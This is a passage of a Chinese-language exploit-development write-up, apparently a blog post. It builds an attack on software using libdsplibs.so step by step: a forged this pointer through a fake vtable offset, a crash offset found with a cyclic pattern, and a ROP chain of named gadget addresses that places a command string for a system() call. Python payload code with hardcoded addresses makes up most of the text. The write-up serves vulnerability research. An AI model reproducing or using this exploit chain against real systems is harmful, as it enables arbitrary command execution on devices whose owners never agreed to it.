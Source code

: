 有了合适的指令之后我们开始构造this指针，从以上的信息我可以得知gadget要放在虚表偏移十八的位置，因此我用以下方式构造  
```
base + 0x934367 => base + 0x11D88F8 + 0x48  => base + 0x93849C
```  
```
libdsplibs_base = 0xf64ce000
fake_this_address_va = 0x934367
fake_this = struct.pack('<I', libdsplibs_base + fake_this_address_va)
data = data.encode() + fake_this
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGpMce9KUgx3WlARcKWW7GWeAxfGFBPw1xKEgfa8ouoDEVO1vqXxmhD0NX7XXDToQaluVx6dYfKYMA/640?wx_fmt=png&from=appmsg "")  
  
  
有了这些基础接下来我们要确定我们gadget链的地址，用cyclic生成5000字符发送过去。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGpMce9KUgx3WlARcKWW7GWem9Y0G9NxcalDkVm21PIB3h8e5toCEzZQHDjdOfKp7OG4eqoe3JrDBw/640?wx_fmt=png&from=appmsg "")  
  
```
libdsplibs_base = 0xf64ce000
fake_this_address_va = 0x934367
fake_this = struct.pack('<I', libdsplibs_base + fake_this_address_va)
data = data.encode() + fake_this + b'aaaabaaaca.......'
```  
  
通过以上的方法可以看到程序在0x6462616f  
位置崩溃，由此得出在偏移2950写gadget。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGpMce9KUgx3WlARcKWW7GWeiaEaYNjg68SBbKptianBoO2IgWjkTUiaDeyyy9xXLUH1dglytGeMp0PQQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGpMce9KUgx3WlARcKWW7GWeoWUKKuPKxNa8UV5FyouqibGoicZGricM5ibTjN77oVotQmC2iclPxkdz42Q/640?wx_fmt=png&from=appmsg "")  
  
  
发送以下包得到了确认  
```
libdsplibs_base = 0xf64ce000
fake_this_address_va = 0x934367
fake_this = struct.pack('<I', libdsplibs_base + fake_this_address_va)
data = data.encode() + fake_this + b'B' * 2950 + b'C' * 4
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ulAsH5xgfGpMce9KUgx3WlARcKWW7GWeGII7QWnChxF1RcCcG9Zn2icrJopoNzp2zViaxibPqzmicqWKcNJVSMHbZQ/640?wx_fmt=png&from=appmsg "")  
  
### 4、ROP时间  
  
在libdsplibs.so  
中刚好有system调用，因此直接在libdsplibs.so  
寻找gadget。  
  
为了把命令字符串放到栈顶我们采用以下方法和命令，其中QWERTYUIOPASDFGH  
代表要执行的命令。  
```
0x00842264 : mov ecx, esp ; ret
0x007e3624 : add ecx, -0x78 ; ret
0x007ac375 : xchg eax, ecx ; ret
```  
```
fake_this = struct.pack('<I', libdsplibs_base + fake_this_address_va)
gadget = struct.pack('<I', libdsplibs_base + 0x00842264)  # mov ecx, esp ; ret
gadget += struct.pack('<I', libdsplibs_base + 0x007e3624)  # add ecx, -0x78 ; ret
gadget += struct.pack('<I', libdsplibs_base + 0x007ac375)  # xchg eax, ecx ; ret
data = data.encode() + fake_this + b'B' * 2834 + b'QWERTYUIOPASDFGH' + b'C' * 100 + gadget
```  
  